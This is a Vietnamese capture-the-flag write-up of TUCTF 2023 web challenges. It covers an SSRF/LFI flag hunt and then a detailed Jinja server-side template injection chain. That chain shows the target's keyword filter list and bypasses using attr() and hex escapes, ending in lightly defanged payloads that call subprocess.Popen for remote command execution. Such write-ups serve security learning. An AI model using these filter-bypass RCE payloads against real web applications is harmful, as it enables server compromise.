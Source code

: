 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{{().**class**}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 


```python
()|attr('__class__')|attr('__base__')
```

nó sẽ tương tự như

```python
().**__class__**.**__base__**
```

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.
(xóa dấu x đi nhé vì github không cho up mã độc hiuhiu )
(xóa dấu x đi nhé vì github không cho up mã độc hiuhiu )
(xóa dấu x đi nhé vì github không cho up mã độc hiuhiu )
(xóa dấu x đi nhé vì github không cho up mã độc hiuhiu )
```python
{x{x().__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('whoami',shell=True,stdout=-1).communicate()x}x}  
```

1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**

- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

```python
{x{x().__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('whoami',shell=True,stdout=-1).communicate()x}x}
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 

```python
{x{x().__class__.__base__.__subclasses__().__getitem__().**__class__**.**__base__**.**__subclasses__**()('whoami',shell=True,stdout=-1).communicate()x}x}
```

Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter

```python
{x{x()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()x}x}
```

- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...`

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**

```python
{x{x()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','')x}x}
```

- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là 
```python
x{x{().__class__.__base__.__subclasses__().__getitem__(372)('whoami',shell=True,stdout=-1).communicate()x}x}
```

- Để tránh bị filter

```python
x{x{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',shell=True,stdout=-1)|attr('communicate')()x}x}
```

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 11.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag :D
